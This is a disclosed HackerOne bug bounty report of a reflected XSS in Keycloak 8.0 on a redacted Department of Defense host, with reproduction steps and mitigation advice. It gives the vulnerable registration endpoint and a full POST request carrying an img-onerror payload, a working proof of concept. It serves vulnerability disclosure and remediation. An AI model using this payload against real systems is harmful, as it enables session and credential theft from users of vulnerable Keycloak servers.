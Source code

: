 # [██████] Reflected XSS via Keycloak on ██████

## Report Details
- **Report ID**: 2126954
- **URL**: https://hackerone.com/reports/2126954
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-08-29T01:45:14.375Z
- **Disclosed**: 2023-09-29T17:26:11.442Z

## Reporter
- **Username**: hackeronanywhere
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Keycloak 8.0 and prior contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks. A lack of proper input validation made it possible for an attacker to execute malicious JavaScript code on ████████ This reflected XSS would execute after making a POST request with an XSS payload in the path of the request. As a result, the server would directly insert the payload into the response, allowing the XSS to trigger on the page.

## References
https://cure53.de/pentest-report_keycloak.pdf
https://hackerone.com/reports/87040

## Impact

If successful, a cross site scripting attack can severely impact websites and web applications, damage their reputation and relationships with customers. XXS can deface websites, can result in compromised user accounts, and can run malicious code on web pages, which can lead to a compromise of the user's device.

## System Host(s)
███

## Affected Product(s) and Version(s)
█████

## CVE Numbers


## Steps to Reproduce
1. Navigate visit URL https://████/
1. Second step as long as I use recconaisetool I can find hidden directory path `403` / `200`
1. Found directory on "/auth/realms/master/clients-registrations/openid-connect"
1. I see this server used keycloack. and lets see the versions used `chrome-extentions`
1. The server is vulnerable to (XSS) Keycloack `8.0`
1. Intercept request to burp-suite and change `GET` Request to `POST` Request

Here's the HTTP Parameter request that the issue:
```
POST /auth/realms/master/clients-registrations/openid-connect HTTP/1.1
Host: █████
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 63

{"<img onerror=confirm('xss_poc_unexpectedbufferc0n') src/>":1}
```
Used the payloads is **`{"<img onerror=confirm('xss_poc_unexpectedbufferc0n') src/>":1}`** boom is executed / effected.

█████████

██████████

## Suggested Mitigation/Remediation Actions
It is recommended not to have error messages rendering as HTML (i.e. having thecontent-type of  text/html), but to rather use plain-text (text/plain) instead. Additionally,HTML characters should be HTML-encoded in the response to prevent MIME-sniffingissues.
https://cure53.de/pentest-report_keycloak.pdf



## Attachments
No attachments
